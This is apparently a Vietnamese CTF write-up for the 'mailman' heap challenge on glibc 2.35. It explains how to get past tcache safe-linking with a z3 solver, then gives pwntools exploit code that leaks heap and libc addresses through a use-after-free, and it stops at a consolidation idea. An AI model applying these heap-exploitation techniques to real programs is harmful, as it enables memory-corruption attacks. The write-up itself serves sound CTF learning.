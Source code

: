 # mailman
## Một số điều cần lưu ý ở libc 2.35
- Các chunk được malloc phải thoả điều kiện `chunk & 0xf = 0`, ví dụ 0x1230 0x23a0 thì thoả, 0x1231 không thoả
- Khi free vào tcache có một lớp bảo vệ fd pointer
```
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
```
- Ví dụ `tcache: chunk2 <- chunk1` ở fd pointer 2 sẽ là `(địa chỉ chunk 1) >> 12 ^ (địa chỉ chunk 2)`
- Thì để bypass được lớp bảo vệ này để leak heap thì có khá nhiều cách nhưng có 2 cách thường thấy nhất
- Cách 1 là việc ta đưa 1 chunk vào tcache mà ở đó chunk đó là chunk đầu tiên của danh sách, khi này không có chunk trước đó.`0 >> 12 ^ chunk đầu tiên = chunk đầu tiên`
- Cách 2 là khi ta không thể free một chunk vào đầu danh sách tcache khi này ta dùng z3 để tính
```python
def unsafe_link(e):
    high_e = e & 0xfffffff000000000
    x = BitVec('x',64)
    s = Solver()
    s.add(x & 0xfffffff000000000 == high_e)
    s.add(x ^ (x >> 12) == e)
    s.check()
    return s.model()[x].as_long()
```
- Để leak được stack ta có một biến `environ trong libc`
- Để leak libc thì ta leak fd pointer của một chunk trong unsorted bin

## Khai thác
### Chuẩn bị
```python
def unsafe_link(e):
    high_e = e & 0xfffffff000000000
    x = BitVec('x',64)
    s = Solver()
    s.add(x & 0xfffffff000000000 == high_e)
    s.add(x ^ (x >> 12) == e)
    s.check()
    return s.model()[x].as_long()

def write(idx, size, context):
        sla(b"> ", b"1")
        sla(b": ", str(idx).encode())
        sla(b": ", str(size).encode())
        sla(b": ", context)
def free(idx):
        sla(b"> ", b"2")
        sla(b": ", str(idx).encode())
def show(idx):
        sla(b"> ", b"3")
        sla(b": ", str(idx).encode())
        value = u64(p.recvline(keepends = False).ljust(8, b"\0"))
```

### Leak heap, leak libc
- Cách làm như ở trên trình bày (mình chọn cách 2)

```python
write(0, 0x20, "e"*8)
write(1, 0x20, "1"*8)
free(0)
free(1)
heap_leak = show(1)
heap_leak = unsafe_link(heap_leak)
info("heap leak: " + hex(heap_leak))
```

- Leak libc
```python
# Leak libc
write(0, 0x500-0x10, "a")
write(10, 0x100+0xa0, "a")
free(0)
libc_leak = show(0)
info("libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x219ce0
info("libc base: " + hex(libc.address))
```

### Consolidation (gộp)
- Tính năng này gộp các chunk liền kề với nhau đã free (không áp dụng cho tcache, fastbin)
- Bằng tính năng trên và việc chương trình không xoá con trỏ sau khi free, ta có ý tưởng sau
- ![Alt text](image.png)